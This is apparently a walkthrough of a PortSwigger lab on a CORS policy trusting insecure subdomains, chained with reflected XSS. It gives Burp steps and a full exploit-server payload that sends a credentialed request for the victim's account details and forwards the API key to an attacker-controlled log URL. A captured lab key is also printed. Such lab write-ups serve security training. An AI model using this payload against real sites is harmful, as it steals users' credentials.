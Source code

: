 ![image](https://github.com/udayk01/Web-Security/assets/52235763/a76fdf9d-b858-42e4-a91f-63ea2d4197c4)

## Solution:

> Check intercept is off, then use Burp's browser to log in and access your account page.

![image](https://github.com/udayk01/Web-Security/assets/52235763/c9c372db-e54d-40fd-9a90-a106ffcc5f1e)

> Review the history and observe that your key is retrieved via an AJAX request to /accountDetails, and the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.

![image](https://github.com/udayk01/Web-Security/assets/52235763/91549e3b-a114-4563-8c96-1a2f3d11d510)

> Send the request to Burp Repeater, and resubmit it with the added header Origin: http://subdomain.lab-id where lab-id is the lab domain name.

![Screenshot 2024-04-20 121847](https://github.com/udayk01/Web-Security/assets/52235763/6c3167eb-6f35-4927-a930-619a7919da32)

>> Observe that the origin is reflected in the Access-Control-Allow-Origin header, confirming that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.

> Open a product page, click Check stock and observe that it is loaded using a HTTP URL on a subdomain.

![image](https://github.com/udayk01/Web-Security/assets/52235763/c85f3464-f747-4c76-a1c4-8a6df4c893aa)

>> Observe that the productID parameter is vulnerable to XSS.

> In the browser, go to the exploit server and enter the following HTML, replacing YOUR-LAB-ID with your unique lab URL and YOUR-EXPLOIT-SERVER-ID with your exploit server ID:
```
<script>
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

![image](https://github.com/udayk01/Web-Security/assets/52235763/0c4ab3d5-f593-46ef-94ce-4eb19e90d36d)

> Click View exploit. Observe that the exploit works - you have landed on the log page and your API key is in the URL.

![image](https://github.com/udayk01/Web-Security/assets/52235763/82af926c-028c-4f52-8053-d72d754f691d)

> Go back to the exploit server and click Deliver exploit to victim.

> Click Access log, retrieve and submit the victim's API key to complete the lab.

![image](https://github.com/udayk01/Web-Security/assets/52235763/bd0b87d7-763a-486d-998c-38b62c0c1041)

> API key: ```qTw3KY8eYU6LcVQeYdmQrF32UR1nQEDC```

![Screenshot 2024-04-20 123451](https://github.com/udayk01/Web-Security/assets/52235763/f78a21e6-1051-41c3-8404-58af295292ad)

> Lab Solved

![Screenshot 2024-04-20 123739](https://github.com/udayk01/Web-Security/assets/52235763/42933efb-2c83-466a-b313-7f23291cfd34)


